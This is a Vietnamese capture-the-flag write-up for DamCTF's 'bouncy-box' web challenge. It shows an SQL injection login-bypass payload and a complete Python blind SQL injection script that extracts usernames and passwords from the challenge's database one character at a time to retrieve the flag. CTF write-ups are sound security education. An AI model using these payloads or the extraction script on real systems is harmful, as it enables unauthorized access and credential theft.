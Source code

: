 ![Image](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/1.png)
</br>
Tôi phát hiện trang web này có chức năng đăng nhập
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/2.png)
Ở form đăng nhập này bị lỗi SQL injection, với payload `trung' or '1'='1'-- -`  nhập vào ô username, tôi dễ dàng vượt qua cơ chế xác thực và xuất hiện nút button `Free flag`
khi ấn vào thì xuất hiện form đăng nhập lần nữa, có vẻ form này không bị lỗi SQL injection, tôi nghĩ chúng ta sẽ lợi form đăng nhập thứ nhất để dò tìm username password để đăng nhập
vào form đăng nhập thứ 2
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/3.png)
</br>

cách giải của tôi
```import requests, string
s = requests.session()

url = 'https://bouncy-box.chals.damctf.xyz/login'

arr = ',' + string.printable

def blind_row(column,step):
    for char in arr:
        res = s.post(url,json={"username":f"admin' or ascii(substr((select {column} from users limit 1),{step},1))={ord(char)}-- -",
        "password":"admin","score":0}).status_code
        if res==200:
            return char
    return None
 
def rows(column):
    row = ''
    step = len(row) +1
    while True:
        char = blind_row(column,step)
        if char == None:
            return row
        row += char
        step += 1
        print('[+] %s = '%column,row)  

username = rows('username')
password = rows('password')

flag = s.post('https://bouncy-box.chals.damctf.xyz/flag',data={'username_input':username,'password_input':password}).text
print(flag)
```
[source đầy đủ ở đây](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/web1.py)
